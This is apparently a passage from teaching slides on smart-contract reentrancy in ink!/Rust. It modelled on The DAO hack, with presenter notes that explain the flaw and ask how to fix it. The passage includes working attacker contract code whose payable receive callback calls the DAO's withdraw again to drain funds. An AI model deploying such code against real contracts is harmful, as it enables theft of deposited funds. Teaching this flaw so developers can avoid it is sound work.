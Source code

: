 ```rust [1-4|6-15|17-33]
    Ok(())
}
```

</div>

Notes:

- ink! does not have fallback functions, but it is not immune from reentrancy attacks either
- this contract mimics the DAO
- it has a mapping for maintaing balances
- it has a deposit function for sending the funds and a withdraw for getting them all back at once
- withdrawals calls the `callers` contract and sends the funds to a function with this 4 byte signature.
- can anyone spot what the problem is?
- how would you use it to craft an attack?

---

## Reentrancy: attacker's code example

<div style="font-size: 0.70em;">

```rust[3-9|11-12|17-22]
#[ink(message)]
pub fn attack(&mut self) -> Result<(), AttackerError> {
    build_call::<DefaultEnvironment>()
        .call(self.dao_address)
        .call_flags(CallFlags::default().set_allow_reentry(true))
        .exec_input(ExecutionInput::new(Selector::new([0x44, 0x45, 0x50, 0x4F])))
        .transferred_value(ONE_AZERO)
        .returns::<Result<(), DaoError>>()
        .invoke()?;

    let mut dao = DaoRef::from_account_id(self.dao_address);
    dao.withdraw()?;

    Ok(())
}

#[ink(message, payable, selector = 0x52454356)]
pub fn receive(&mut self) -> Result<(), DaoError> {
    let mut dao = DaoRef::from_account_id(self.dao_address);
    dao.withdraw()?;
    Ok(())
}
```

</div>

Notes:

- attacker deploys an SC that acts as an investor
- it begins by depositing and this contract deposits some ETH into The DAO.
- This entitles the attacker to later call the `withdraw` function of the DAO to get his deposits back.
- When the `withdraw` is called, the DAO sends back the funds by calling the payable `receive` function.
- but this function is crafted by the attacker to maliciously call the DAOs `withdraw` again.
- since the state is not yet updated the call does not revert and withdraw send the funds yet again.
- this effectively creates an evil feedback loop which drains all the funds.
- how would you fix this?

---